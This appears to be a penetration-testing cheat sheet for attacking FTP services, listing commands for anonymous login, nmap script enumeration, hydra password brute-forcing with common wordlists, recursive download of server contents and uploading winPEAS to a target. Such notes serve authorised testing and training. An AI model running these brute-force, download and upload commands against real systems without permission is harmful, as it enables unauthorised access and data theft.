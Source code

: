 # FTP Checklist

1. See if there is anonymous access

```bash
ftp $ip
ftp $ip 21
ftp -A $ip
ftp -A $ip 21
# input anonymous as username and password
# try in the browser
ftp://anonymous:anonymous@10.10.10.98
```

2. Additional Enumeration

```bash
nmap --script ftp-* -p 21 $ip 
```

3. Brute force

```bash
hydra -l USERNAME -P /opt/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f $ip ftp -V
hydra -l steph -P /usr/share/wfuzz/wordlist/others/common_pass.txt $ip -t 4 ftp
hydra -l steph -P /usr/share/wordlists/rockyou.txt $ip -t 4 ftp
```

3. Recursively download content

```bash
> prompt off
> recurse on
> mget *
```

or

````
wget -r ftp://steph:billabong@10.1.1.68/
wget -r ftp://anonymous:anonymous@192.168.204.157/

find / -name Settings.*  2>/dev/null #looking through the files
````

4. Interact

````
# Put File
put test.txt #check if it is reflected in a http port

# Upload Binary
ftp> binary
200 Type set to I.
ftp> put winPEASx86.exe
````

#### Hydra for Simple Bruteforce

```bash
hydra ftp -L usernames-shortlist -P best1050 $ip
```